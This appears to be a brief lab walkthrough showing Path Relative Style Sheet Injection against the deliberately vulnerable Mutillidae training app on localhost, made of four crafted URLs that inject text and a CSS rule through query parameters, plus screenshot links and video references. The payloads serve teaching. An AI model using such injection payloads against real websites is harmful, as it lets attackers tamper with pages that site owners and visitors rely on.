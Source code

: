 #### Styling with Mutillidae

```
http://127.0.0.1/mutillidae/index.php?page=styling-frame.php&page-to-frame=styling.php?page-title=Styling+with+Mutillidae
```

![](images/1.png)

```
http://127.0.0.1/mutillidae/index.php?page=styling-frame.php&page-to-frame=styling.php?page-title=This+injected
```

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

```
http://127.0.0.1/mutillidae/index.php?page=styling-frame.php&page-to-frame=styling.php/foo/bar/?page-title=This+injected
```

![](images/7.png)

![](images/8.png)

![](images/9.png)

![](images/10.png)

```
http://127.0.0.1/mutillidae/index.php?page=styling-frame.php&page-to-frame=styling.php/foo/bar/{}*{color:blue}//&page-title=This+injected
```

![](images/11.png)

![](images/12.png)

###### Reference

- [``Introduction to Path Relative Style Sheet Injection``](https://www.youtube.com/watch?v=yh3S8YzrysE)
- [``Hacking Web Apps with Style: Path Relative Style Sheet Injection``](https://www.youtube.com/watch?v=GPC3EwS7eBM&list=PLZOToVAK85MrsyNmNp0yyUTBXqKRTh623&index=3)
